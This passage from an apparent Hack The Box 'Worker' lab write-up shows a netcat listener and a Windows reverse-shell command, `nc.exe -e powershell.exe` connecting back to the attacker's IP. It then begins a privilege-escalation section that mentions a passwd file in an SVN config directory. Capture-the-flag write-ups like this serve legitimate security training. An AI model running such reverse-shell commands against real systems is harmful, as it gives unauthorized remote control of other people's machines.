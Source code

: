 To get an interactive shell, we need to put netcat on the target and then connect back to our local machine

Once you have downloaded netcat on to the target, setup a listener locally

```bash
┌──(finlay㉿kali)-[~/htb/worker/new]
└─$ nc -nvlp 4444  
listening on [any] 4444 ...
```

Now we can execute the reverse shell with `C:/Windows/Temp/nc.exe -e powershell.exe 10.10.14.65 4444`

And we can see that we got a shell:

![web_shell](images/web_shell.png)

# Privilege Escalation

## Switching user

After digging around on the target, we find a `passwd` file in the `W:\svnrepos\www\conf` directory.
